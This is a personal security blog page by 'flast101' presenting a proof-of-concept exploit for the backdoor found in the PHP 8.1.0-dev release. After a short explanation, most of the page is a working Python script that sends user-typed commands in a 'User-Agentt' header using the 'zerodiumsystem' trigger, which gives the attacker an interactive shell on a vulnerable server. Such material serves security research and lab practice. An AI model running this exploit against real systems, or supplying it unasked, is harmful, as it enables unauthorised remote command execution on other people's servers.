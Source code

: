 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![logo_php8.png](logo_php8.png "logo_php8.png")



* * * 

## POC Script

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Command Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**     
    [https://hub.docker.com/r/phpdaily/php]([https://hub.docker.com/r/phpdaily/php])        
    [https://github.com/phpdaily/php](https://github.com/phpdaily/php)    
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    


An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

The following exploit uses the backdoor to provide a pseudo system shell on the host.


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>


